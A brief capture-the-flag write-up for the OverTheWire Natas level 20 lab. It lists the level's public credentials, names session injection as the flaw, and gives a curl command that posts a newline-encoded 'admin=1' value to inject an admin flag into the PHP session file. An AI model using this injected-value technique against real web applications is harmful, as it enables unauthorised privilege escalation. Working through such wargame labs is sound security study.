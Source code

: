 # Username
natas20
# Password
p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw
# Web vulnerability
Session fixation, session injection
# Method of solve
We need to inject a new value into the session file.
```
curl -X POST -u 'natas20:p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw' -v 'http://natas20.natas.labs.overthewire.org/?debug=1' -b 'PHPSESSID=413e96uk941o14rn1jb52ak29m' -d 'name=test%0Aadmin=1'
```
